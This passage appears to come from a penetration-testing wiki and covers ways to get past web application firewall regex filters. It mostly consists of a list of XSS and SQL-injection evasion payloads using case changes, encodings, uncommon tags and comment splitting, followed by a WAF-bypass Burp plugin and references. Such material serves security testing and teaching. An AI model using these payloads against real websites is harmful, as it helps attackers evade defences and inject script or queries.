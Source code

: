 ### Regex Bypasses

Different techniques can be used to bypass the regex filters on the firewalls. Examples include alternating case, adding line breaks, and encoding payloads. Resources for the various bypasses can be found at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) and [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html). The examples below were pulled from [this article](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2).

```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks 
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```

## Tools

* [**nowafpls**](https://github.com/assetnote/nowafpls): Burp plugin to add junk data to requests to bypass WAFs by length

## References

* [https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)
* [https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/](https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/)
* [https://www.youtube.com/watch?v=0OMmWtU2Y\_g](https://www.youtube.com/watch?v=0OMmWtU2Y\_g)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

